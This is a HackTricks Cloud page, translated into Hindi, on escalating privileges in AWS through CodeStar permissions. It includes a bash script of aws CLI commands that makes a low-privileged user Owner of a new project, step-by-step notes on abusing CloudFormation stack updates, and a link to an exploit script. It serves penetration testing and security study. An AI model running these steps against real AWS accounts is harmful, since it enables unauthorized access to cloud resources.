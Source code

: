 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

आपको कोडस्टार के बारे में अधिक जानकारी मिल सकती है:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप **कोडस्टार IAM भूमिका का दुरुपयोग** कर सकते हैं ताकि **मनमाने कार्य** को **क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से किया जा सके। निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

यह तकनीक `codestar:CreateProject` का उपयोग करके एक कोडस्टार प्रोजेक्ट बनाती है, और `codestar:AssociateTeamMember` का उपयोग करके एक IAM उपयोगकर्ता को एक नए CodeStar **प्रोजेक्ट** का **स्वामी** बनाती है, जो उन्हें **कुछ अतिरिक्त अनुमतियों के साथ एक नई नीति** प्रदान करेगा।
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से ही **प्रोजेक्ट के सदस्य** हैं, तो आप अनुमति **`codestar:UpdateTeamMember`** का उपयोग करके **अपना रोल** मालिक में अपडेट कर सकते हैं, इसके बजाय `codestar:AssociateTeamMember` के।

**संभावित प्रभाव:** कोडस्टार नीति में प्रिवेस्क। आप उस नीति का एक उदाहरण यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **एक नया प्रोजेक्ट बनाएं:**
* एक नए प्रोजेक्ट के निर्माण की शुरुआत करने के लिए **`codestar:CreateProjectFromTemplate`** क्रिया का उपयोग करें।
* सफल निर्माण पर, **`cloudformation:UpdateStack`** के लिए स्वचालित रूप से पहुंच दी जाती है।
* यह पहुंच विशेष रूप से `CodeStarWorker-<generic project name>-CloudFormation` IAM भूमिका से संबंधित एक स्टैक को लक्षित करती है।
2. **लक्षित स्टैक को अपडेट करें:**
* दी गई CloudFormation अनुमतियों के साथ, निर्दिष्ट स्टैक को अपडेट करने के लिए आगे बढ़ें।
* स्टैक का नाम आमतौर पर दो पैटर्न में से एक के अनुसार होगा:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* सटीक नाम चुने गए टेम्पलेट पर निर्भर करता है (उदाहरण शोषण स्क्रिप्ट का संदर्भ)।
3. **पहुँच और अनुमतियाँ:**
* अपडेट के बाद, आपको स्टैक से जुड़े **CloudFormation IAM भूमिका** के लिए निर्धारित क्षमताएँ प्राप्त होती हैं।
* नोट: यह स्वाभाविक रूप से पूर्ण व्यवस्थापक विशेषाधिकार प्रदान नहीं करता है। विशेषाधिकार बढ़ाने के लिए वातावरण में अतिरिक्त गलत कॉन्फ़िगर किए गए संसाधनों की आवश्यकता हो सकती है।

अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
आप शोषण को यहाँ पा सकते हैं [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**संभावित प्रभाव:** cloudformation IAM भूमिका में प्रिवेस्क।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
